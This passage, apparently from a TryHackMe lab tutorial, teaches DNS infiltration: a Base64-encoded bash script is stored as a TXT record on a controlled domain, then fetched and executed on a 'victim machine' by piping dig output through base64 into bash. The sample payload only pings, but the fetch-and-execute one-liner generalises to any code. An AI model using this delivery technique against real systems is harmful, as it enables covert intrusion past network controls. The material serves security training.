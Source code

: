 For example, let's say we have a script that needs to be executed in a victim machine. First, we need to encode the script as a Base64 representation and then create a TXT DNS record of the domain name you control with the content of the encoded script. The following is an example of the required script that needs to be added to the domain name:  

```bash
#!/bin/bash 
ping -c 1 test.thm.com
```

The script executes the ping command in a victim machine and sends one ICMP packet to test.tunnel.com. Note that the script is an example, which could be replaced with any content. Now save the script to/tmp/script.sh using your favorite text editor and then encode it with Base64 as follows,

Encode the Bash Script as Base64 Representation  

```
thm@victim2$ cat /tmp/script.sh | base64  IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
```
   

Now that we have the Base64 representation of our script, we add it as a TXT DNS record to the domain we control, which in this case, the tunnel.com. You can add it through the web interface we provide http://10.10.10.143/ or https://10-10-10-143.p.thmlabs.com/ without using a VPN. 

Once we added it, let's confirm that we successfully created the script's DNS record by asking the local DNS server to resolve the TXT record of the script.tunnel.com. If everything is set up correctly, we should receive the content we added in the previous step.   

![DNS Server - Resolving TXT Record](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/38b87cfbbe254bef1e98f0dffa49451f.png)  

Confirm the TXT record is Added Successfully  

```

thm@victim2$ dig +short -t TXT script.tunnel.com

```

We used the dig command to check the TXT record of our DNS record that we added in the previous step! As a result, we can get the content of our script in the TXT reply. Now we confirmed the TXT record, let's execute it as follows,

Execute the Bash Script!  

```
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
 

